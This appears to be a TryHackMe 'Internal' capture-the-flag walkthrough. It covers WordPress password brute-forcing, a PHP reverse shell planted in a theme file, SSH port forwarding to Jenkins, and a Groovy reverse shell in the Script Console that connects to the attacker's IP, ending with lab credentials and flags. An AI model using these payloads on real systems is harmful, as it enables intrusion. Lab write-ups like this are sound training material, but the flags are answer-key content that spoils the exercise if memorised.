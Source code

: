 # Internal

Tryhackme Internal - Linux - Hard

https://tryhackme.com/room/internal

## Nmap
```shell
Nmap scan report for internal.thm (10.10.46.201)
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6efaefbef65f98b9597bf78eb9c5621e (RSA)
|   256 ed64ed33e5c93058ba23040d14eb30e9 (ECDSA)
|_  256 b07f7f7b5262622a60d43d36fa89eeff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As the homepage is just default ubuntu page, we have to search other dir, therefore, `gobuster` is the next tool we will use.

```shell
└──╼ $gobuster dir -u internal.thm -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
...
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
```

On going to blog, we found it is wordpress website.

Therefore, next step is to do `wpscan`.

```shell
└──╼ $wpscan --url http://internal.thm/blog/ --passwords /usr/share/wordlists/rockyou.txt --max-threads 100
...
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

We got username and password, so let's login in wordpress.

In theme editor, we will write our shell in `index.php`

![](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_2ae824d5ff3519e3a5301cf60a84aa07.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1685980308&Signature=cEoGorX5b91fQlXrZYEtP566xpA%3D)

`<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.8.95.227/4444 0>&1'"); ?>`

We got the reverse shell... Paste this command to get full TTY.
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Little enumeration to find `user.txt`
```
www-data@internal:/var/www$ cd /home
cd /home

www-data@internal:/home$ ls
ls
aubreanna

www-data@internal:/home$ cd aubreanna
cd aubreanna
bash: cd: aubreanna: Permission denied

www-data@internal:/home$ find / -name user.txt 2>/dev/null 
find / -name user.txt 2>/dev/null
/usr/share/doc/phpmyadmin/html/_sources/user.txt

www-data@internal:/home$ cat /usr/share/doc/phpmyadmin/html/_sources/user.txt
cat /usr/share/doc/phpmyadmin/html/_sources/user.txt
User Guide
==========

.. toctree::
    :maxdepth: 2

    transformations
    privileges
    other
    import_export

www-data@internal:/home$ find / -name *.txt 2>/dev/null       
find / -name *.txt 2>/dev/null
/opt/wp-save.txt
... other files

www-data@internal:/home$ cat /opt/wp-save.txt
cat /opt/wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

So, we get the password for `aubreanna`. Let's login using ssh.
```shell
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt 
THM{int3rna1_fl4g_1}
```

## Privilege Escalation

Let's check for other file

```shell
aubreanna@internal:~$ sudo -l
[sudo] password for aubreanna: 
Sorry, user aubreanna may not run sudo on internal.
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

So jenkins file is running on `8080` port, and we have to forward that to our local machine.

We have to use port forwarding in ssh, we can achieve using the following command.

`└──╼ $ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm`

On entering password, we will get jenkins login page on `localhost:8080`.


After enumerating password from jenkins login form, we got `admin:spongebob`.

In `Manage Jenkins > Script Console` paste this reverse shell and listen via netcat.

```shell
String host="10.8.95.227";
int port=4444;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


As as user, go to `/opt` and we will get root password from there.
```shell
$ cd /opt
$ ls
note.txt
$ cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

Login using this credentials,
```shell
root@internal:~# ls
root.txt  snap
root@internal:~# cat root.txt 
THM{d0ck3r_d3str0y3r}
```

